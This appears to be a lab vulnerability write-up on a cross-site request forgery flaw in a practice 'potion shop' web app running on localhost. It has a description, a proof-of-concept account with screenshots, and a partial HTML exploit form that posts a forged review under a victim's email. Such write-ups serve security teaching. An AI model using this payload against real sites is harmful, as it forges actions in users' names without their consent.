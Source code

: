 ### 3. Answer

### 3. A potion's review form.

#### Vulnerability: Cross Site Request Forgery (Missing CSRF Protection)

#### Description: 

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

#### PoC: 

I exploited a CSRF vulnerability in the potion shop application. While logged in as attacker@gmail.com, I crafted a malicious HTML form that submitted a review to the endpoint http://localhost:4000/potion/review/2. In the form, I included a hidden input field with the email set to victim@gmail.com. When I submitted the form, the review was successfully posted, and it appeared as if it had been submitted by victim@gmail.com. This demonstrates a CSRF vulnerability, as the server did not verify that the logged-in user owned the email specified in the form and CSRF token. By exploiting this flaw, I was able to forge actions on behalf of another user, highlighting the need for proper CSRF protection and server-side validation of CSRF tokens.

As an initial test vector, I removed the CSRF token and forwarded the request to the server. The review was successfully submitted, indicating a strong potential for exploiting a CSRF vulnerability.  

![No_CSRFtoken_Validation](https://github.com/user-attachments/assets/bf36ce0b-b985-4532-a35b-28e39d994e40)

![no_csrf_valiation2](https://github.com/user-attachments/assets/ab093107-8a37-4347-b410-6672c3c23f59)

To showcase the exploit, I crafted an HTML page with embedded JavaScript. I hosted this exploit, and after accessing it, the review appeared as if it had been submitted by victim@gmail.com.

![6 CSRF](https://github.com/user-attachments/assets/4e57acb6-f49c-4868-aee2-b1772bf9ab3a)

![7_CSRF](https://github.com/user-attachments/assets/a0783293-431d-4a8e-a9e2-29af8a956c3f)


#### Exploit: 

```
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF Exploit</title>
  </head>
  <body>
    <h1>CSRF Exploit</h1>

    <form action="http://localhost:4000/potion/review/2" method="post" id="reviewForm">
      <!-- <%= csrf_meta_tag() %> CSRF Token -->

      <textarea name="review[body]" required>not effective, do not buy</textarea>

      <select id="review_score" name="review[score]">
        <option value="1" selected>1</option> <!-- Changed to selected -->
        <option value="2">2</option>
        <option value="3">3</option>
        <option value="4">4</option>
        <option value="5">5</option>
      </select>

      <input id="review_email" name="review[email]" type="hidden" value="victim@gmail.com">
```